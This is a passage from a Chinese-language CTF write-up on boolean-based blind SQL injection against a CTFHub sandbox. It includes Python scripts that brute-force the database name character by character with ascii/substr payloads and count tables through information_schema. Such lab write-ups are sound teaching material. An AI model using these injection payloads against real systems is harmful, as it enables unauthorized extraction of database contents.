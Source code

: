 或者使用ascii

python代码如下

```python
import requests
url='http://challenge-aca2fb9060468e2f.sandbox.ctfhub.com:10800/?id=1 and '
db='ascii(substr((select database()),%d,1))=%d'
response=''
for i in range(1,10):
    for j in range(31,128):
        payload=db%(i,j)
        r=requests.get(url+payload)
        print(r.url)
        if 'query_success' in r.text:
            response+=chr(j)
            print(response)
            break
```

## 获取表的数量

```
table_count='(select count(*) from information_schema.tables where table_schema=database())=%d'
```

```
def get_table_count():
    for i in range(1,10):
        table_payload=table_count%(i)
        r=requests.get(url+table_payload)
        print(r.url)
        if 'query_success' in r.text:
            print("表的数量: "+str(i))
            return i
```

![](assets/PixPin_2025-05-23_21-18-07.png)

## 获取表

可以不需要获取表的数量
